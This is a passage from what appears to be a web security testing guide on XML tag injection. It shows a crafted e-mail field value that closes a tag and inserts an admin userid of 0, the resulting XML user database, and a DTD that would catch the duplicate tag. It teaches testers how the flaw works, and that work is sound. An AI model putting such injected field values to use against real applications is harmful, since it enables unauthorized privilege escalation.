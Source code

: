 ### Tag Injection

Once the first step is accomplished, the tester will have some information about the structure of the XML document. Then, it is possible to try to inject XML data and tags. We will show an example of how this can lead to a privilege escalation attack.

Let's considering the previous application. By inserting the following values:

```txt
Username: tony
Password: Un6R34kb!e
E-mail: s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com
```

the application will build a new node and append it to the XML database:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password>
        <userid>500</userid>
        <mail>s4tan@hell.com</mail>
        <userid>0</userid>
        <mail>s4tan@hell.com</mail>
    </user>
</users>
```

The resulting XML file is well formed. Furthermore, it is likely that, for the user tony, the value associated with the userid tag is the one appearing last, i.e., 0 (the admin ID). In other words, we have injected a user with administrative privileges.

The only problem is that the userid tag appears twice in the last user node. Often, XML documents are associated with a schema or a DTD and will be rejected if they don't comply with it.

Let's suppose that the XML document is specified by the following DTD:

```xml
<!DOCTYPE users [
    <!ELEMENT users (user+) >
    <!ELEMENT user (username,password,userid,mail+) >
    <!ELEMENT username (#PCDATA) >
    <!ELEMENT password (#PCDATA) >
    <!ELEMENT userid (#PCDATA) >
    <!ELEMENT mail (#PCDATA) >
]>
```
